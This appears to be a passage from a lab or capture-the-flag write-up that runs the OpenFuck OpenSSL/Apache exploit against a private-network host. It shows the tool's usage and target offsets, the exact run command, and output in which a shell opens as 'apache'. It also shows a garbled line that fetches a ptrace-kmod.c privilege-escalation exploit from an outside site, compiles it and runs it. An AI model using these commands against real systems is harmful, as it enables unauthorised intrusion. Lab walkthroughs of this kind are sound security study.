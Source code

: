 ```bash

*******************************************************************
* OpenFuck v3.0.4-root priv8 by SPABAM based on openssl-too-open *
*******************************************************************
* by SPABAM    with code of Spabam - LSD-pl - SolarEclipse - CORE *
* #hackarena  irc.brasnet.org                                     *
* TNX Xanthic USG #SilverLords #BloodBR #isotk #highsecure #uname *
* #ION #delirium #nitr0x #coder #root #endiabrad0s #NHC #TechTeam *
* #pinchadoresweb HiTechHate DigitalWrapperz P()W GAT ButtP!rateZ *
*******************************************************************

: Usage: ./openfuck target box [port] [-c N]

  target - supported box eg: 0x00
  box - hostname or IP address
  port - port for ssl connection
  -c open N connections. (use range 40-50 if u dont know)
  
  Supported OffSet:
        0x00 - Caldera OpenLinux (apache-1.3.26)
        0x01 - Cobalt Sun 6.0 (apache-1.3.12)
        0x02 - Cobalt Sun 6.0 (apache-1.3.20)
...
```
We need to scroll the 'Supported Offsets' for our target:
```bash
...
	0x60 - RedHat Linux 7.0 (apache-1.3.14-2)
    0x61 - RedHat Linux 7.0-Update (apache-1.3.22-5.7.1)
```
### Execution
The command and output:
```bash
./openfuck 0x6b 10.0.2.5 -c 45
./openfuck 0x6b 10.0.2.5 -c 45                                                        
*******************************************************************
* OpenFuck v3.0.4-root priv8 by SPABAM based on openssl-too-open *
...

Connection... 45 of 45
Establishing SSL connection
cipher: 0x4043808c   ciphers: 0x80f8100
Ready to send shellcode
Spawning shell...
bash: no job control in this shell
bash-2.05$ 
d.c; ./exploit; -kmod.c; gcc -o exploit ptrace-kmod.c -B /usr/bin; rm ptrace-kmo 
--07:58:31--  https://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c
           => `ptrace-kmod.c`
Connecting to dl.packetstormsecurity.net:443... connected!

Unable to establish SSL connection.

Unable to establish SSL connection.
gcc: ptrace-kmod.c: No such file or directory
gcc: No input files
rm: cannot remove `ptrace-kmod.c`: No such file or directory
bash: ./exploit: No such file or directory
bash-2.05$            # <---- rev shell
bash-2.05$ whoami     # <---- our test command 
whoami                
apache                # <---- output on target machine
```